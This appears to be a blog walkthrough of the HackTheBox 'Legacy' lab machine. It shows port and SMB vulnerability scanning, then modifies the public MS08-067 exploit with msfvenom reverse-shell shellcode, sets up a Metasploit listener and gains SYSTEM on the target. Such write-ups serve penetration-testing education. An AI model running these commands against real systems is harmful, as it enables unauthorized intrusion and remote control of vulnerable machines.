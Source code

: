 ```yaml
---
published: true
---
```

Disassembly of Julio Ureña’s youtube video HackTheBox - Legacy. Windows box includes enumeration of system to an exploitable SMB server. Modifying a public exploit and inserting custom  shellcode with msfvenom both meterpreter and shell_reverse_tcp.


----------

Legal Usage:
*The information provided by execute@will is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risks/responsibilities.*

----------

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556775997786_image.png)

This series of write-up will contain comprehensive write-ups of hackthebox machines. In an effort to sharpen reporting techniques and help solidify the understand and methodologies used during penetration testing.


# Enumeration
Quick Masscan Script:

    #!/bin/bash
    
    #syntax ./masscan [targetip]
    echo "Starting TCP Masscan"
    masscan -p1-65535 --rate 500 -e tun0 $1 > masscan-tcp.all
    echo
    
    echo "**** Display Results ****"
    echo "****       TCP       ****"
    cat masscan-tcp.all | grep tcp | cut -d '/' -f 1 | cut -d' ' -f 4
    echo
    
    echo "Starting UDP Masscan"
    masscan -pU:1-65535 --rate 500 -e tun0 $1 > masscan-udp.all
    echo
    
    echo "**** UDP ****"
    cat masscan-udp.all | grep udp | cut -d '/' -f 1 | cut -d' ' -f 4
    echo

    nmap -sC -sV -oA nmap/legacy 10.10.10.4

(results)

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556776410300_image.png)

*we know we are dealing with a windows xp box and will next run the smb nmap script*

    nmap --script*smb-vuln* -p139,455 - nmap-smb-vuln.txt 10.10.10.4

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556777152415_image.png)

*discovered vulnerable SMB services.*

## ms08-067 exploit

based off the exploit database: https://www.exploit-db.com/exploits/40279

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556777455488_image.png)

exploit in a nutshell:

    We are taking over assembly of SHELL32.DLL and NTDLL.DLL which are vulnerable to an overflow which we then inject our own shellcode generated with msfvenom to create a connection to the target.


## creating msfvenom (meterpreter) shellcode
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.248 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode

*-v = change the variable of the output*

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556782359563_image.png)


at this point our instructions stated we need to have a file size of 380bytes and the current payload is 380 bytes.


## creating msfvenom (shell_reverse_tcp) shellcode
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.248 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556783461785_image.png)

*created with 348 bytes to which we will need to fill the rest of the space (32 bytes) with nops* `*\x90*`.

adding the nops via msfvenom:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.248 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -n 32

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556783584239_image.png)


*32 bytes of nops have been added to the final shellcode.*

## setup metasploit listener
    msfdb run #launches postgress as well
    msfconsole #normal launch

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556781278484_image.png)

    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    options

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556781346210_image.png)

    set LHOST 10.10.10.248
    set LPORT 443
    run

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556781449302_image.png)


Download exploit locally

    wget http://www.exploit-db.com/download/40279.py -O MS8-067.py

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556781743576_image.png)

edit `MS8-067.py` the shell code section:

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556781809088_image.png)


## calculate bytes of shellcode with python

open python:

    python

enter variable shellcode:

    shellcode = ""
    (paste shell code)
    len(shellcode)

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556781989166_image.png)


*without the nops we have value of 380 bytes*

## paste generated shellcode into exploit

add the shellcode generated into the exploit and remove x1 nop of `\x90` as we had 381 bytes of shellcode in our original msfvenom.

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556782495584_image.png)

quick test of length with python:

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556782613931_image.png)

*410 bytes was the exact number of bytes in the original shellcode.*

## enumerating OS type with nmap
    nmap -O 10.10.10.14

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556782843749_image.png)

*we already enumerated that the system is windows xp but to verify that before launching our exploit perform this verification. This is needed because if we send the wrong set of exploit data to the target we could crash it.*

# Exploiting

We are going to use using the option “7” for “Windows XP SP3 English (AlwaysON NX)” based off the exploit.

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556783007348_image.png)

## testing functionality

Run the script to see if we have functionality:

    python MS08-067.py

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556783090049_image.png)

*we have functionality.*

## send exploit
    python MS08-067.py 10.10.10.4 7

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556783155684_image.png)

## listener return

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556783192692_image.png)


# Root&Loot
send meterpreter `getuid`

![](https://paper-attachments.dropbox.com/s_E4E25379FC8FE4D2DE44A9BBC621E34D3023565FE6327CEC2FAD4D4849F35929_1556783276882_image.png)

*NT AUTHORITY/SYSTEM!*


----------

If you want to accomplish the task of learning Spanish and Pentesting I recommending checking out Julio at his YouTube page.
Link: https://www.youtube.com/channel/UC2o1vzpUIvgf0VMJIMKZ_rQ

